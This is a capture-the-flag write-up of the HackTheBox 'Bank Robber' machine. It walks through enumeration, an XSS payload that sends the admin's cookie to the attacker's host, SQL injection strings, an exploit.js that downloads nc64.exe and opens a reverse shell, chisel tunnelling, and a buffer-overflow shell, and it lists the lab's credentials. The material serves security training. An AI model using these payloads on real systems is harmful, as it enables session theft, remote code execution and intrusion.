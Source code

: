 ## layout: post

title: Bank Robber
author: Mitchell Stein
tags:

- jekyll theme
- jekyll
  date: 2021-11-27
  tags: [write up, hackthebox, Linux]
  categories: [Practice]
  toc: true

---

Bank Robber is a machine hosted by HackTheBox that requires more XSS, cookies, and SQL knowledge.

## Enumeration

### Nmap

```zsh
$ nmap -sC -sV -o nmap 10.10.10.154
# Nmap 7.91 scan initiated Mon Jul 26 11:18:06 2021 as: nmap -sC -sV -o nmap 10.10.10.154
Nmap scan report for 10.10.10.154
Host is up (0.087s latency).
Not shown: 996 filtered ports
PORT     STATE SERVICE      VERSION
80/tcp   open  http         Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
443/tcp  open  ssl/http     Apache httpd 2.4.39 ((Win64) OpenSSL/1.1.1b PHP/7.3.4)
|_http-server-header: Apache/2.4.39 (Win64) OpenSSL/1.1.1b PHP/7.3.4
|_http-title: E-coin
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp open  mysql        MariaDB (unauthorized)
Service Info: Host: BANKROBBER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5m26s, deviation: 0s, median: 5m26s
| smb-security-mode:
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-07-26T15:23:57
|_  start_date: 2021-07-26T15:23:11
```

Some interesting ports to take notice of are 3306, 445, and the web ports 80 and 443.

### MySQL

```zsh
┌──(root💀kali-linux-2021-1)-[/home/parallels]
└─# mysql -h 10.10.10.154 --port 3306
    ERROR 1130 (HY000): Host '10.10.14.31' is not allowed to connect to this MariaDB server
```

No luck with any connection to MySQL, this usually seems the norm for these type of boxes.

### CrackMapExec

Sadly similarly to the MySQL ports, we have no access or lucky breaks with the smb ports either.

```zsh
┌──(root💀kali-linux-2021-1)-[/home/parallels]
└─# crackmapexec smb 10.10.10.154 -u '' -
    SMB         10.10.10.154    445    BANKROBBER       [*] Windows 10 Pro 14393 (name:BANKROBBER) (domain:Bankrobber) (signing:False) (SMBv1:True)
    SMB         10.10.10.154    445    BANKROBBER       [-] Bankrobber\: STATUS_ACCESS_DENIED

┌──(root💀kali-linux-2021-1)-[/home/parallels]
└─# crackmapexec smb 10.10.10.154 -u 'guest' -p ''
    SMB         10.10.10.154    445    BANKROBBER       [*] Windows 10 Pro 14393 (name:BANKROBBER) (domain:Bankrobber) (signing:False) (SMBv1:True)
    SMB         10.10.10.154    445    BANKROBBER       [-] Bankrobber\guest: STATUS_LOGON_FAILURE
```

### Website

The website has a pretty standard looking login page with some opportunities to input data in fields and trade E-Coin.

In this E-Coin transfer window we can actually perform some XSS!

![Bank Robber](https://mitchelldstein.github.io/assets/images/BankRobber/XSS.png)

Hosting this image on our Kali machine can see it did reach out and get the image!

```zsh
┌──(root💀kali-linux-2021-1)-[/home/parallels]
└─# sudo nc -nlvp 80
    connect to [10.10.14.31] from (UNKNOWN) [10.10.10.154] 49796
    GET /testing HTTP/1.1
    Referer: http://localhost/admin/index.php
    User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
    Accept: */*
    Connection: Keep-Alive
    Accept-Encoding: gzip, deflate
    Accept-Language: en-GB,*
    Host: 10.10.14.31
```

Upon submitting this trade we also see an alert window stating an admin will review the trade. This immediately got me thinking we can use XSS to grab the admin session cookie and authenticate as that user.

---

## Intercepting Cookies￼

Performing the same method as above, sending a trade with some imbedded XSS can give us the admin cookie as soon as the admin account opens the trade.

```javascript
<script>new Image().src="http://10.10.14.31/Craz3.php?output="%2bdocument.cookie;</script>
```

We get the following reply back:

![XSS Reply](https://mitchelldstein.github.io/assets/images/BankRobber/Burp.png)

```zsh
┌──(root💀kali-linux-2021-1)-[/home/parallels]
└─# echo -n 'YWRtaW4=' | base64 -d
    admin

┌──(root💀kali-linux-2021-1)-[/home/parallels]
└─# echo -n 'SG9wZWxlc3Nyb21hbnRpYw==' | base64 -d
    Hopelessromantic
```

---

## WebApp

SQL INJECTION


DB Version

> term=1' UNION ALL SELECT @@VERSION,2,3 -- -

    10.1.38-MariaDB

> term=1' UNION ALL SELECT user(),2,3 -- -

    root@localhost

---

XSS
Testing if XSS is possible

Script: “exploit.js”
var request = new XMLHttpRequest();
var params = 'cmd=dir|powershell -c "iwr -uri 10.10.14.31/nc64.exe -outfile %temp%\\n.exe"; %temp%\\n.exe -e cmd.exe 10.10.14.31 443';
request.open('POST', 'http://localhost/admin/backdoorchecker.php', true);
request.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
request.send(params);

Make sure to setup python http server first > sudo python3 -m http.server 80

How to execute:
on user page:

<script src="http://10.10.14.31/exploit.js"></script>

> C:\xampp\htdocs>type

    $user = 'root';
    $pass = 'Welkom1!';

---

AFTER SHELL

Load up smb server on linux machine to allow windows to grab files > sudo impacket-smbserver cthulhu .

Transfer over winPEASx64.exe to enumerate the system > C:\ copy \\10.10.14.31\cthulhu\winPEASx64.exe .
found port 910 pointing to localhost

Forward port 910 to internal chisel server > C:\ copy \\10.10.14.31\cthulhu\chisel.exe .
win > .\chisel.exe client 10.10.14.31:18110 R:910:localhost:910
lin > ./chisel server -p 18110 --reverse

## Get into port service > nc localhost 910

Internet E-Coin Transfer System
International Bank of Sun church
v0.1 by Gio & Cneeliz

---

Please enter your super secret 4 digit PIN code to login:
[$] 0021
[$] PIN is correct, access granted!

—————————————————————————
BUFFER OVERFLOW

/usr/bin/msf-pattern_create -l 100

    > nc localhost 910
        --------------------------------------------------------------
        Internet E-Coin Transfer System
        International Bank of Sun church
                                               v0.1 by Gio & Cneeliz
        --------------------------------------------------------------
        Please enter your super secret 4 digit PIN code to login:
        [$] 0021
        [$] PIN is correct, access granted!

    Enter:
    > Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9AbC:\users\cortin\nc64.exe 10.10.14.31 8443 -e cmd

---

CREDENTIALS:

- ADMIN
  U: admin
  P: Hopelessromantic

> C:\xampp\htdocs>type

    $user = 'root';
    $pass = 'Welkom1!';
